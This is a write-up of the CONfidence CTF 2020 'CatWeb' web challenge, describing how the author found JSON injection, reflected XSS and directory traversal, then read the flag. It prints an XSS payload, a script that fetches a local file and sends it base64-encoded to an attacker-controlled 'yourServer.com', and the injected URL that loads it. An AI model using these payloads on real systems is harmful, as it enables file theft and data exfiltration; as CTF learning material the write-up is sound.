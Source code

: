 ```yaml
---
title : "CONfidence 2020: CatWeb"
date : 2020-04-23T00:46:19-06:00
draft : false
author : "JamVie"
cover : "img/CONfidenceCover.png"
tags : ["writeups", "web"]
images: ["img/CONfidenceCover.png"]
---
```


I participated in CONfidence CTF 2020 teasers in March of this year. I was focusing mainly on this problem, and it really helped me broaden my skills in JSON-related attacks! I have never seen many JSON injections before this, so this was welcome practise. 
<!--more-->

Let's Begin!
----
The link to the webpage is: ```http://catweb.zajebistyc.tf/```

{{< image src="/images/CatWeb_HomePage.png" alt="Login" position="center" style="border-radius: 8px;" >}}

We have a basic webpage with photos of cute cats filtered by their color. The drop down menu will give us black, red, grey and white cats. At the bottom is a report button, which will take whatever input we get, send it to some server, and respond to us that our report has been...well. Reported. 


Checking out the response content as I was clicking about the page showed me the requests for the "kind" (colour) of cats I chose based on the drop down menu. The request was just a small JSON string stipulating what kind I asked for, and I guess the server takes that input and returns whatever. 

```
curl "http://catweb.zajebistyc.tf/cats?kind=grey"
```

That got me thinking, can I ask for cats of a kind not in the drop down menu? 
Editing the request to change the kind from a colour to just absolute garbage...

```
curl "http://catweb.zajebistyc.tf/?kind=djfa"
```

{{< image src="/images/NotFound.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Aha! Our text got echoed back to us in the response. There isn't any input validation in the JSON request! This must be a way in. 

To test how far I could go with it, I decided to hide an XSS in the JSON, seeing as how the URL we are taken to after any sort of response also has the JSON text in it. 

I typed this in as the URL:

```
http://catweb.zajebistyc.tf/?","status":"ok","content":["\"<img src=deadbeef onerror=alert(document.title)> </img>],"ignore":"
```

If there was a JSON vulnerability here, then going to this website would load up an alert with the title of the webpage ("my cats"). What would happen is it would attempt to load an image from the source called "deadbeef", and when it can't find the source, it would load as an error. If the image loaded as an error, pop up an alert with the name of the webpage. 


{{< image src="/images/XSSJsonInCatWeb.png" alt="Login" position="center" style="border-radius: 8px;" >}}


:) Great! There is definitely JSON injection in play here. Let's see what we can do with it! 

Using curl to delve deeper into the webpage, I tried to make it list directories with the command: 

```
curl "http://catweb.zajebistyc.tf/cats?kind=.."
```

{{< image src="/images/CatWebTemplates.png" alt="Login" position="center" style="border-radius: 8px;" >}}

I traversed through the directories, but in the templates subfolder...


{{< image src="/images/CatWebFlagLocn.png" alt="Login" position="center" style="border-radius: 8px;" >}}


Aha! The ```flag.txt``` file is in there. Now we just need to somehow read it from the browser. The fact that I was able to find the local files like this means something: the path of templates looks alot like ```file:///app/templates/flag.txt``` - Note the root path name: file. A same-origin policy here could treat all files with this starting origin as from the same place. 

We can use this to our advantage: create an XSS attack on the ```file://``` path.

Since an XSS endpoint was found using the JSON vulnerabilities in the URL, and there exists a report function, this is all a pretty classic XSS attack from here.


Craft our payload script to fetch the flag.txt from ```file://```. Here's mine called (xss.js):

```javascript
url='http://yourServer.com/6060?'
fetch('file:///app/templates/flag.txt').then(resp=>resp.text()).then(flag=>fetch(url+(btoa(flag) || 'Nothing')));
```


Report this url with our payload in it:

```
file:///app/templates/index.html?", "status": "ok", "content":["\u0022><script src=http://yourServer.com:6060/xss.js></script>"],"ignore":"
```

Now we wait for our server to retrieve the flag for us once someone checks out our reported URL :)

```flag:p4{can_i_haz_a_piece_of_flag_pliz?}```


This was a cool challenge to do that really helped me stretch my XSS skills and teach me how to be thorough when scoping out webpages for possible XSS attacks. I quite enjoyed this challenge! Thank you to [P4](https://p4.team/) for hosting the CONfidence 2020 teaser :) 


Jam 


References
----
feature image credit: [Peng Louis](https://www.pexels.com/@peng-louis-587527) on Pexels